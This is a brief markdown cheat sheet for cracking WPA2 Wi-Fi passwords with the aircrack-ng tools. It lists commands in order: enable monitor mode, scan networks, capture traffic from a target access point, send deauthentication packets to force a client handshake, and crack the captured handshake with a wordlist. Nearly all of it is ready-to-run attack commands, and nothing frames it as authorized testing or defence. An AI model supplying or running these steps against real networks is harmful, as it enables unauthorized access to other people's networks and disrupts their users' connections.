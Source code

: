 ## WPA2 WiFi Hacking

### Enable monitor mode on wireless interface 

**List wireless interfaces supporting monitor mode**

```bash
airmon-ng
```

**Enable monitor mode**

```bash
airmon-ng start wlan0
```

### Scan for WiFi networks

```bash
airodump-ng wlan0mon
```

### Packet Capture

```bash
airodump-ng -c [channel] --bssid [bssid] -w /root/Desktop/ wlan0mon
```

### Inject packets/Capture Handshake

```bash
aireplay-ng -0 10 -a [router bssid] -c [client bssid] wlan0mon
```

### Cracking

```bash
aircrack-ng -a2 -b [router bssid] -w /path/to/wordlist /root/Desktop/*.cap
```

